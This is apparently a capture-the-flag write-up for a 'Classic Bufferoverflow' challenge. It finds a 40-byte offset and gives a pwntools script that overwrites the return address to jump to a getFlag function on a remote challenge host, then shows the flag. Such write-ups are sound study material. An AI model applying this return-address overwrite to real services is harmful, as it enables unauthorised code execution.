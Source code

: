 # Classic Bufferoverflow

***

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

***

### Solution

I think this is the trickiest challenge I have ever faced.

When i run the program, it will show something like `ltrace` or `strace` command.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

First of all when facing a buffer overflow challenge, find the offset which for this challenge is 40 bytes.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Notice that <code>Better luck next time!</code> did not printed in the image below means that we hit the offset value</p></figcaption></figure>

Next, I went through the code using `gdb-gef` and I found 3 functions, `main`, `getFlag` and `getInput`.

The target is the function `getFlag`, obviously to give me the flag. So, i get the address of the function which is `0x00000000004011d6` and use the same technique in challenge Don't Overboard 2.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

So, i made a simple script to ease my life

{% code title="solve.py" lineNumbers="true" fullWidth="true" %}
```python
from pwn import *
context.bits=64
conn = ELF('./challenge.bin')

rem=remote('3.26.44.175',3336)

offset=40
addr=0x004011d6

payload=b"a"*offset
payload+=p64(addr)

rem.sendline(payload)
rem.interactive()
```
{% endcode %}

Just run it and the flag is already served.

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

***

### Flag

CURTIN\_CTF{B4S1C\_0V3RF10W}

